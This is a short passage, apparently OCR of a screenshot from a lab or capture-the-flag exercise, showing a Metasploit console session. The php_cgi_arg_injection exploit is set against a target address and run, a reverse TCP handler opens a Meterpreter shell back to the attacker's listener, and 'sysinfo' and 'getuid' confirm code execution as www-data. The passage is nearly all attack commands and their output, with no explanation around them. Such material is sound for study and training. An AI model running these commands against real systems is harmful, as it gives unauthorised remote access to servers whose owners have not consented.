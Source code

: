 ```
   --  ----
   0   Automatic


msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 10.0.26.110
RHOSTS => 10.0.26.110
msf6 exploit(multi/http/php_cgi_arg_injection) > run

[*] Started reverse TCP handler on 10.10.21.4:4444 
[*] Sending stage (39282 bytes) to 10.0.26.110
[*] Meterpreter session 1 opened (10.10.21.4:4444 -> 10.0.26.110:51204 ) at 2023-05-15 19:50:05 +0530

meterpreter > sysinfo
Computer    : d1d6a9361621
OS          : Linux d1d6a9361621 5.4.0-1048-aws #50-Ubuntu SMP Mon May 3 21:44:17 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
```